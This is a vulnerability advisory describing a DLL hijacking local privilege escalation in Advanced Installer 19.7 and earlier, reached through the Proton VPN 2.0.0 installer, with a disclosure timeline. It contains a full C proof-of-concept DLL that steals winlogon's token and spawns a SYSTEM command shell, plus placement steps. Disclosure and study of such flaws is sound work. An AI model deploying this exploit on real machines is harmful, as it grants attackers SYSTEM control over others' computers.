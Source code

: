 ```yaml
---
title : "Advaned Installer Local Privilege Escalation Vulnerability"
excerpt: "Advaned Installer Local Privilege Escalation Vulnerability"
toc: true

categories:
    - "0-day"
tags:
    - [Mitre]
---
```


## 0x01: Details

- Title: Advanced Installer Local Privilege Escalation Vulnerability
- CVE ID:
- Advisory Published: 2022/08/01
- Advisory URL: https://www.advancedinstaller.com/release-19.7.1.html#bugfixes
- Vendor URL : https://www.advancedinstaller.com

## 0x02: Test Environment

- OS : Windows 10 Pro 64 bit 21H2 (build 19044.1826)
- Advanced Installer: 19.7
- Proton VPN: 2.0.0

## 0x03: Vulnerability details

A vulnerability existed in the Advanced Installer that loaded GdiPlus.dll, one of the WinSxS DLLs.

## 0x04: Technical description

I found this vulnerability through Proton VPN, so I will describe it as Proton VPN.

The Proton VPN installer runs with Administrator privileges and loads GdiPlus.dll from `%INSTALLER_LOCATION%\ProtonVPN_win_v2.0.0.exe.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. If the `ProtonVPN_win_v2.0.0.exe.Local` directory does not exist, load the dll from `C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. At this time, the ProtonVPN_win_v2.0.0.exe.Local directory can be accessed by general users, so the attacker can load GdiPlus.dll with Administrator privileges and elevate it to SYSTEM privileges through a dll hijacking attack.

I discovered this vulnerability through [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).

![Untitled](/files/Advaned%20Installer%20Local%20Privilege%20Escalation%20Vulnerability/Untitled.png)

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
						exploit();
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

- After compiling the above code in x86 mode, place it as `%INSTALLER_LOCATION%\%INSTALLER%.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7\GdiPlus.dll`.

## 0x06: Affected Products

This vulnerability affects the following product:

- Advanced Installer <= 19.7
- Proton VPN for Windows <= 2.0.0

## 0x07: TimeLine

- 2022/06/12 : First time contacted via email from Proton VPN(security@protonmail.com).
- 2022/07/20 : Proton VPN said this was an Advanced Installer vulnerability and asked the Advanced Installer if they could share the POC.
- 2022/08/01 : Received confirmation that a patch is being released (v19.7.1). Advanced Installer gave me the Advanced Installer Architect license key as a token of appreciation.

## 0x08: Reference

- [https://www.advancedinstaller.com/release-19.7.1.html#bugfixes](https://www.advancedinstaller.com/release-19.7.1.html#bugfixes)